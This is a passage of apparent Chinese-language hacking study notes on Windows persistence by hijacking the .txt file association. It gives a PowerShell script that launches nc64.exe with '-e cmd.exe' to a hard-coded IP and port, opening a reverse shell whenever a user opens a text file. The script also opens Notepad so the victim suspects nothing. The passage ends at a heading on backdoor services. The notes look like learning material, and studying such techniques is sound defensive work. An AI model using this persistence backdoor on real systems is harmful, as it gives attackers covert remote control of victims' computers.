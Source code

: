 

## Hijacking File Associations(劫持文件关联)

当打开一个txt文件时，系统实际上执行的是
```
%SystemRoot%\system32\NOTEPAD.EXE %1
```

%1代表打开文件的名称

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/c3565cf93de4990f41f41b25aed80571.png)

准备一个PS脚本

```
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.13.21.169 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

修改打开txt文件时，指定执行我们的脚本

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/f7ed25a701cf20ea85cf333b20708ffe.png)

现在当用户点击任何txt文件时都会反弹一个shell


## Creating backdoor services
